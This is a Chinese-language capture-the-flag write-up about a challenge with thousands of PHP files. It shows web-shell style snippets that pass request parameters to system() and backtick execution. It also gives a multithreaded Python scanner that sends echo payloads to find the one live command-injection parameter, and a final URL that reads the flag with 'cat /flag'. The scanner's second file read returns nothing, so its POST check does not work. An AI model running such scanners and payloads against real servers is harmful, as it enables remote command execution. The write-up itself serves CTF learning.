

访问 `/www.tar.gz` 获取源码。但是源码里面有 3000+++ 文件，其中的头都是类似于这样的

```php
<?php
$_GET['jVMcNhK_F'] = ' ';
system($_GET['jVMcNhK_F'] ?? ' ');
$_GET['tz2aE_IWb'] = ' ';
echo `{$_GET['tz2aE_IWb']}`;
$_GET['cXjHClMPs'] = ' ';
echo `{$_GET['cXjHClMPs']}`;
```

东西很多，要想办法写脚本检测回显到底是否有效。

- 先定义了一个函数，逐个打开文件，然后再正则匹配获取所有的 GET 参数和 POST 参数，再访问 url 传入参数验证是否可用。
- 判断的方法是令传入的参数在访问页面显示一个内容`echo 'XXXXXX'`,然后再判断页面有没有这个内容，有，则传入的参数执行成功，没有就是无效的。


EXP


```python
import os
import requests
import re
import threading
import time
print('开始时间：  '+  time.asctime( time.localtime(time.time()) ))
s1=threading.Semaphore(100)  							  			#这儿设置最大的线程数
filePath = r"D:/phpstudy_pro/WWW/src"                   #自己替换为文件所在目录
os.chdir(filePath)													#改变当前的路径
requests.adapters.DEFAULT_RETRIES = 5								#设置重连次数，防止线程数过高，断开连接
files = os.listdir(filePath)
session = requests.Session()
session.keep_alive = False											 # 设置连接活跃状态为False
def get_content(file):
    s1.acquire()												
    print('trying   '+file+ '     '+ time.asctime( time.localtime(time.time()) ))
    with open(file,encoding='utf-8') as f:							#打开php文件，提取所有的$_GET和$_POST的参数
            gets = list(re.findall('\$_GET\[\'(.*?)\'\]', f.read()))
            posts = list(re.findall('\$_POST\[\'(.*?)\'\]', f.read()))
    data = {}														#所有的$_POST
    params = {}														#所有的$_GET
    for m in gets:
        params[m] = "echo 'xxxxxx';"
    for n in posts:
        data[n] = "echo 'xxxxxx';"
    url = 'http://127.0.0.1/src/'+file                      #自己替换为本地url
    req = session.post(url, data=data, params=params)			#一次性请求所有的GET和POST
    req.close()												# 关闭请求  释放内存
    req.encoding = 'utf-8'
    content = req.text
    #print(content)
    if "xxxxxx" in content:									#如果发现有可以利用的参数，继续筛选出具体的参数
        flag = 0
        for a in gets:
            req = session.get(url+'?%s='%a+"echo 'xxxxxx';")
            content = req.text
            req.close()												# 关闭请求  释放内存
            if "xxxxxx" in content:
                flag = 1
                break
        if flag != 1:
            for b in posts:
                req = session.post(url, data={b:"echo 'xxxxxx';"})
                content = req.text
                req.close()												# 关闭请求  释放内存
                if "xxxxxx" in content:
                    break
        if flag == 1:													#flag用来判断参数是GET还是POST，如果是GET，flag==1，则b未定义；如果是POST，flag为0，
            param = a
        else:
            param = b
        print('找到了利用文件： '+file+"  and 找到了利用的参数：%s" %param)
        print('结束时间：  ' + time.asctime(time.localtime(time.time())))
    s1.release()

for i in files:															#加入多线程
   t = threading.Thread(target=get_content, args=(i,))
   t.start()

```



```payload
找到了利用文件： xk0SzyKwfzw.php  and 找到了利用的参数：Efa5BVG
```

进行利用

```payload
/xk0SzyKwfzw.php?Efa5BVG=cat%20/flag
```

